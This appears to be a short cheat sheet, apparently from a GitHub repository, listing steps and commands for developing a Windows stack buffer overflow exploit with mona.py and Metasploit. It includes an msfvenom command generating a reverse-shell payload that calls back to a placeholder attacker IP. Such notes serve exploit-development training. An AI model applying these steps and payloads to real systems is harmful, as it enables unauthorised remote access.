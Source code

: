Buffer overflow
================================================================
-   Set workingfolder	
    `!mona config -set workingfolder c:\mona\%p`
-   Fuzzing	
    `Using fuzzer.py`
-   create pattern on bytes crashes	
    `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [bytes]`
-   findmsp on bytes crashes	
    `!mona findmsp -distance [bytes_range]`

-   check for eip offset value

-   set value offset and retn value	

-   Make sure eip same with retn value	

-   check bad character	
    `!mona bytearray -b "\x00"`

-   generate a string of bad character	
    `Using badchars.py`

-   compare bad character 	
    `!mona compare -f bytearray.bin -a [esp address]`

-   check list possible bad chars	

-   generate new bad chars with possible chars we found until unmodified with esp address	

-   find jump point choose the top one	
    `!mona jmp -r esp -cpb  "\x00[possible bad chars]"`

-   update retn with new address from jump point	
    `retn = reverse address ("\xaf\x11\x50\x62")`

-   create msfvenom payload 	
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "[badchars]" -f c`

-   add padding	
    `"\x90" * 16`

-   Search through directories in the `$PATH` environment variable  
    `which sbd`